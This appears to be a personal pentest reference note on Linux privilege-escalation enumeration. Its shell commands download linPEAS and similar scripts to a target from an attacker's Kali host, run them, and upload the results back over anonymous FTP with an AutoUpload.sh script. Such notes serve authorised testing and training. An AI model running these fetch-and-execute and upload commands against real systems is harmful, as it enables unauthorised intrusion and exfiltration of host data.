 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

linPEAS.sh
LineEnum.sh
linux-exploit-suggester.sh 
linuxprivchecker.py 


#### Download to Kali

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh && wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py && wget https://raw.githubusercontent.com/etc5had0w/suider/main/suider.sh && wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py

```

```bash - kali
echo $KALI
```

```bash - kali
mousepad AutoUpload.sh
```

#### AutoUpload.sh - ==REMEMBER TO CHANGE $KALI TO IP!==
```bash - kali
#!/bin/sh
HOST='$KALI'
USER='anonymous'
PASSWD='anonymous'


ftp -n $HOST <<END_SCRIPT
quote USER $USER
quote PASS $PASSWD
put LinEnum.txt*
put linpeas.txt
put linux-exploit-suggester.txt
put linuxprivchecker.txt
put suider.sh
put suid3num.txt
quit
END_SCRIPT
exit 0
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

#### Transfer to target - bash - ==CHANGE $KALI TO IP!==
```bash - target
mkdir /tmp/Tools && cd /tmp/Tools && wget http://$KALI:80/linpeas.sh && wget http://$KALI:80/LinEnum.sh && wget http://$KALI:80/linux-exploit-suggester.sh && wget http://$KALI:80/linuxprivchecker.py && wget http://$KALI:80/AutoUpload.sh && wget http://$KALI:80/suider.sh && wget http://$KALI:80/suid3num.py && chmod +x linpeas.sh && chmod +x LinEnum.sh && chmod +x linux-exploit-suggester.sh && chmod +x AutoUpload.sh && chmod +x suider.sh && chmod +x suid3num.py
```

#### Execute tools
```bash - target
./linpeas.sh -a > linpeas.txt & ./LinEnum.sh -t -r LinEnum.txt & ./linux-exploit-suggester.sh > linux-exploit-suggester.txt & python linuxprivchecker.py -w -o linuxprivchecker.txt & ./suider.sh > suider.txt & python suid3num.py > suid3num.txt
```

#### Start FTP server and upload results
```bash - kali
python -m pyftpdlib -p 21 --write
```

```bash - target
./AutoUpload.sh
```

[[3._Automated Tools]]

==Remember you can use [[gcc]] to locally compile if needed!==


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
